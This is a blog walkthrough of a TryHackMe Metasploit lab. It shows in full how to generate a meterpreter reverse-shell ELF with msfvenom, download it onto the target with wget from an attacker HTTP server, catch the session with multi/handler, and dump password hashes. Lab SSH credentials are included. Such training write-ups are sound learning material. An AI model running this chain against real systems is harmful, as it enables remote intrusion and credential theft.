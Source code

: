 ```yaml
---
layout: layouts/post.njk
title: "Walkthrough - msfvenom (Metasploit: Exploitation TryHackMe Jr Pen Tester
  Pathway)"
date: 2021-12-03T15:13:26.698Z
tags:
  - metasploit
  - msfvenom
  - tryhackme
  - jrpenetrationtester
  - jrpentester
  - exploitation
---
```

Just a quick one, I had a bit of trouble getting this working so wanted to create a straightforward guide as the ones I read weren't very clear. 

This is for the Metasploit Exploitation room, which is part of the Jr Penetration Tester pathway. This is for the MSFVENOM part. 

I was using the attackbox but you could use your own machine. 

Connect to the target machine using ssh murphy@TARGET_IP

Enter the password: 1q2w3e4r

Do - `sudo su`
Then enter the password again to elevate permissions.

Next create your payload in .elf use a different terminal for this - 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_AttackBox_IP LPORT=8080 -f elf > rev_shell.elf`

You can use any port for LPORT but to avoid confusion just use 8080.

Press enter and now you've created the payload. 

You can use the same terminal you used to create the payload on or a new one, run the following and leave it running - 

`python3 -m http.server 9000` 

This is what we use to transfer the payload to the target machine.

From the target machine (the one you are ssh'd on) run this - 

`wget http://Your_attackbox_IP:9000/rev_shell.elf`

It should then connect and you will see it download the rev_shell.elf file 

![](/images/capture-2-.png "Here is the rev_shell.elf file downloaded.")

You can check it's downloaded by doing `ls` which will list what's in that directory and you will see the rev_shell.elf file listed, if it's not there go back over the above steps and figure out where you may have gone wrong.

Now to get a meterpreter session you need to open another terminal.

Type `msfconsole` to start Metasploit.

Once loaded do this one line at a time from the metasploit console - 



```
use exploit/multi/handler

set payload linux/x86/meterpreter/reverse_tcp

set LHOST YOUR_ATTACKBOX_IP

set LPORT 8080

exploit
```

Now go back to the SSH session for the target machine and do the following one line at a time. 

```
chmod +x rev_shell.elf

./rev_shell.elf
```

The second line here is what runs the rev_shell.elf file, so once run your Metasploit console where you ran the command `exploit` from should now have changed to say `meterpreter >`.

![](/images/capture-3-.png "Here is the running of the .elf file from the target machine. ")

In the meterpreter session do the following. 

`run post/linux/gather/hashdump`

You should now get a list of password hash's for the different users, copy the hash for claire (You will want to copy everything from the $6$ to the bep0.)

You can now paste this into the question "What is the other user's password hash?" to complete this room.



Hope this helped!